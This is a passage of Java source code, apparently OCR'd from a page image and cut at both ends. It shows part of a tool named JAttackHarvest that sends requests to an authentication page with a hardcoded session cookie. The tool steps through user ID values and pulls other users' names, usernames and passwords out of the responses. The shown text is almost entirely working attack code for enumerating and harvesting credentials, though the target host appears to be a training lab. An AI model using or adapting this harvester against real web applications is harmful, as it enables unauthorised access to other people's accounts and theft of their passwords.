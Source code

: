   ```java
  }
  
  class PSNumbers implements PayloadSource
  {
      int from, to, step, current;
      PSNumbers(int from, int to, int step)
      {
          this.from = from;
          this.to = to;
          this.step = step;
          reset();
      }
  
      public boolean nextPayload()
      {
          current += step;
          return current <= to;
      }
  
      public void reset()
      {
          current = from - step;
      }
  
      public String getPayload()
      {
          return Integer.toString(current);
      }
  }
  
  public class JAttackHarvest
  {
      // attack config
      String host = "mdsec.net";
      int port = 80;
      String method = "GET";
      String url = "/auth/498/YourDetails.ashx";
      Param[] params = new Param[]
      {
          new Param("SessionId_test.login._498", "0947F6DC9A66D29F15362D031B337797", Param.Type.COOKIE, false),
          new Param("uid", "198", Param.Type.URL, true),
      };
      PayloadSource payloads = new PSNumbers(180, 200, 1);
  
      String[] extractStrings = new String[]
      {
          "<td>Name: </td><td>",
          "<td>Username:&nbsp;&nbsp;</td><td>",
          "<td>Password: </td><td>"
      };
  
      // attack state
      int currentParam = 0;
  
      boolean nextRequest()
      {
          if (currentParam >= params.length)
              return false;
  
          if (!params[currentParam].attack)
          {
              currentParam++;
  ```